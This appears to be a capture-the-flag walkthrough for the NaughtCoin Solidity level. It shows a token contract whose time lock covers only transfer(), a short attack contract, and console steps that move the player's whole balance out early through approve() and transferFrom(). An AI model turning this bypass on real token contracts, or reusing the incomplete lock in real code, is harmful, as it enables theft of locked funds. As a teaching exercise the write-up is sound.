

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/token/ERC20/IERC20.sol";

contract NautTransfer {
    IERC20 nautContract;

    constructor(address _nautAddress) public {
        nautContract = IERC20(_nautAddress);
    }

    function WithdrawAll(address _sender, uint256 amount) external {
        nautContract.transferFrom(_sender, address(this), amount);
    }

}
```
lockTokens modifier with timeLock of 365 days is used to prevent transfer by the minter i.e player playing the level. But there is another function approve which can be used to allocate the allowances to other address to let them transfer the allowable amount themselves from the transferFrom function. To know more about the ERC20 contract please read different articles or view the ERC20.sol from openzepplin.

1. So to transfer the amount to another address with timelock, first we can deploy the above NautTransfer contract with the NaughtCoin contract address as _nautAddress.

2. Approve the amount of INITIAL_SUPPLY or more in this case i used amount of 10000000 * 10**18 to approve to the NautTransfer contract address.

```
const nautTransferAddress = "0x............................."
await contract.approve(nautTransferAddress, toWei('10000000'));
```

3. Then call WithdrawAll function from Remix IDE or other setup you have with the player address i.e. address of us and amount as the total supply of the token the player has i.e. 1000000 * 10**18

4. Check the player balance and finally we transfer all the balance of the player to the contract successfully. Check the player balance to confirm.

```
await contract.balanceOf(player);
```


